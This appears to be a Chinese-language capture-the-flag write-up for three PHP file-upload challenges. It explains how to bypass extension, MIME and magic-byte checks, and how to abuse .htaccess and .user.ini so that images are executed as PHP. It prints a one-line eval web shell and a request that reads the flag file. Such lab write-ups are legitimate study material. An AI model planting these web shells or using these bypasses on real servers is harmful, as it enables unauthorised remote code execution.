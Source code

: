 # [极客大挑战 2019]Upload 1

1. 先上传一个shell.php文件，得到Not image!
2. 将文件名修改为shell.phtml，绕过常规php文件后缀检测

   将文件类型修改为：image/jpeg

   注意：phtml一般是指嵌入了php代码的html文件，但是同样也会作为php解析

    ![](https://s21.ax1x.com/2024/04/07/pFqx94x.png)
3. 得到Don't lie to me, it's not image at all!!!
4. 
   ![](https://s21.ax1x.com/2024/04/07/pFqxEKe.png)

   ![](https://s21.ax1x.com/2024/04/07/pFqxU5q.png)

   上传成功
5. 用蚁剑连接，连接密码为1234，得到flag

   http://cbb5c448-3988-4e0b-8c30-8279b604b2e7.node5.buuoj.cn:81/upload/shell.phtml

# [MRCTF2020]你传你🐎呢 1

1. 尝试第一题做法，发现被过滤了
2. htaccess小知识

   .htaccess文件(或者"分布式配置文件"）,全称是Hypertext Access(超文本入口)。提供了针对目录改变配置的方法， 即，在一个特定的文档目录中放置一个包含一个或多个指令的文件， 以作用于此目录及其所有子目录。作为用户，所能使用的命令受到限制。管理员可以通过Apache的AllowOverride指令来设置。新建.htaccess文件，编辑内容为`SetHandler application/x-httpd-php`(该语句作用是让Apache将其他类型文件均以php格式解析)
3. 上传成功后，再上传.jpg，别忘了把木马加上
4. 最后用蚁剑连接，得到flag

# [SUCTF 2019]CheckIn 1

1. 尝试使用常规方法，发现都不行，得到exif_imagetype:not image!
>在这边，它用了一个exif_imagetype函数来判断文件类型。
>平时简单一点的文件类型检查就是$_FILES[“file”][“type”]，这种我们改一下后缀就行了。
>但是exif_imagetype() 读取一个图像的第一个字节并检查其签名，如果发现了恰当的签名则返回一个对应的常量，否则返回 FALSE，比如我们传个.gif的文件，它返回值是IMAGETYPE_GIF。
2. 各类型对应头字节：
- JPG ：FF D8 FF E0 00 10 4A 46 49 46（16进制编码）
- GIF：47 49 46 38 39 61（ascll值是GIF89a）
- PNG： 89 50 4E 47
3. 所以我们只要在我们的一句话马前加上GIF89a就行了
```txt
GIF89a
<script language='php'>eval($_REQUEST[1234]);</script> 
```
4. 但现在传上去的只是一张图片，我们要把它解析成php

   这里可以用.user.ini(正常想到的是.htaccess，但是这个服务器是nginx，而.htaccess是针对apache的)

   php.ini是php默认的配置文件，其中包括了很多php的配置，这些配置中，又分为几种：

   PHP_INI_SYSTEM、PHP_INI_PERDIR、PHP_INI_ALL、PHP_INI_USER

   而.user.ini可以看成用户自己定义的php.ini,并且在php配置项中有两个项`auto_prepend_file和auto_append_file`

   相当于指定一个文件，自动包含在要执行的文件前，类似于在文件前调用了require()函数

   auto_prepend_file是在文件前插入，而auto_append_file是在文件最后才插入。

   然后创建.user.ini文件上传：
```txt
GIF89a
auto_prepend_file=she.jpg
```

```payload
/uploads/cc551ab005b2e60fbdc88de809b2c4b1/index.php?1234=var_dump(file_get_contents("/flag"));

uploads/cc551ab005b2e60fbdc88de809b2c4b1/index.php
原因：.user.ini中auto_prepend_file=she.jpg会在执行index.php前把she包含进来，且解析为php格式
```